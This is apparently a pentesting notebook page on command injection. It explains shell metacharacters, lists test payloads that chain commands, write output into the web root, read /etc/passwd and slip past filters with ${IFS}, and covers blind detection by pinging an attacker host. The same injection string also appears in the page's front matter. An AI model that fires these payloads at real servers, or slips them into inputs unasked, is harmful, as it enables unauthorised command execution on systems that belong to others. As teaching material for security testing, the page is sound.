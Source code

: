 ```yaml
---
description: ;ping+-c+10.10.10.10+1#
---
```


# Command Injection

Command Injection is a critical vulnerability that results in attackers being able to directly manipulate and control a server remotely. This exploit abuses the lack of input validation in a server through some special characters inputted by attackers.

<figure><img src="../.gitbook/assets/image (807).png" alt=""><figcaption><p><em>Taken from PortSwigger Web Security Academy</em></p></figcaption></figure>

## Exploitation

In order to exploit this properly, we need to understand some special characters and what they do within an application.

{% code overflow="wrap" %}
```bash
# --> comment
$() --> expression in bash that evaluates the text inside bracket as commands
; --> used to chain commands together e.g. id ; whoami would execute 2 commands at once
| --> pipe used to pass output from one command to another e.g. whoami | echo
& --> Bitwise AND Operator
&& --> Logical AND Operator
|| --> Logical OR Operator
%0a --> URI encoded \n character, meaning enter is pressed on keyboard
> --> redirect output somewhere
< --> send file content as an input
' --> escape quotes where necessary
${IFS} --> means " " or space character, useful when there is strict WAF checking
```
{% endcode %}

Here are some possible payloads for testing whether Command Injection Works:

{% code overflow="wrap" %}
```bash
#Both Unix and Windows supported
ls||id; ls ||id; ls|| id; ls || id # Execute both
ls|id; ls |id; ls| id; ls | id # Execute both (using a pipe)
ls&&id; ls &&id; ls&& id; ls && id #  Execute 2º if 1º finish ok
ls&id; ls &id; ls& id; ls & id # Execute both but you can only see the output of the 2nd
ls %0A id # %0A Execute both (RECOMMENDED)

#Only unix supported
`ls` # ``
$(ls) # $()
ls; id # ; Chain commands
ls${LS_COLORS:10:1}${IFS}id # Might be useful

#Not execute but may be interesting
> /var/www/html/out.txt #Try to redirect the output to a file
< /etc/passwd #Try to send some input to the command
```
{% endcode %}

Generally, if we can view the output of our command, it's very easy to see if we have Command Injection.

<figure><img src="../.gitbook/assets/image (3767).png" alt=""><figcaption><p><em>Look at Cmd parameter</em></p></figcaption></figure>

### Blind Injection

Sometimes, we cannot view the output of whatever command we injected. As such, we need to use other commands to 'force' an output.

What I like to use is a `ping` command. When we ping something, what we are really doing is sending something called an **Internet Control Message Protocol (ICMP) packet** to another host. If the host replies with another ICMP packet, then the ping works and the host is alive.

We can test out our Command Injection using this command.

```bash
ping -c 1 10.10.10.10
# if URL encoding needed
ping+-c+1+10.10.10.10
```

What this does is make the machine send **1** ping packet to another host. We can set up a listener on our attacking machine using `tcpdump` on the network interface we expect to receive the packet on and to only respond if ICMP packets are received.

Below is an example of a succesful exploit script being used to execute the `ping` command. We can see the received PING packet from the second terminal window.

<figure><img src="../.gitbook/assets/image (1580).png" alt=""><figcaption></figcaption></figure>
